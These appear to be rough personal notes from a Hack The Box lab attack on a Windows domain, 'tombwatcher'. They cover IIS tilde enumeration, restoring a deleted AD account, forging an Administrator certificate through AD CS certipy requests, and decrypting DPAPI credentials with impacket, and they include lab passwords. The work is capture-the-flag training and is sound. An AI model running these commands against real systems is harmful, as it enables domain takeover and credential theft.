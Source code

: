 ___


henry / H3nry_987TGV!


has an IIS server on port 80


john has remote management access 



*triggering errors in windows IIS*

a.aspx
&&&
trace.axd
1~.rem


try to use DEBUG http method

*enumerates a lot of these*
BurpSuite Extension — IIS Tilde Enumeration Scanner.


*extension found vuln perf*


*found dirs*

http://10.10.11.72/aspnet_client/

http://10.10.11.72/aspnet_client/system_web/

http://10.10.11.72/aspnet_client/system_web/4_0_30319/

this last one is the version of  asp-net running on the machine

CLR -> common language runtime



*I should have run bloodhound *




do hack the box persistent or persistence box after this I think it has to do with IIS



*alfred pass*
?:basketball



*list all deleted user objects*
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *


*restored one of the deleted objects*
Restore-ADObject -Identity 'CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'




```
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'Abc123456@' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'
```



```
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'Abc123456@' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```


```
❯ certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

```







*decrypting master key for DPAPI*
└> dpapi.py masterkey -file ./08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid 'S-1-5-21-3927696377-1337352550-2781715495-1110' 
/usr/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83





*decrypt credential file with master key*
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key '0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83' 
/usr/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m






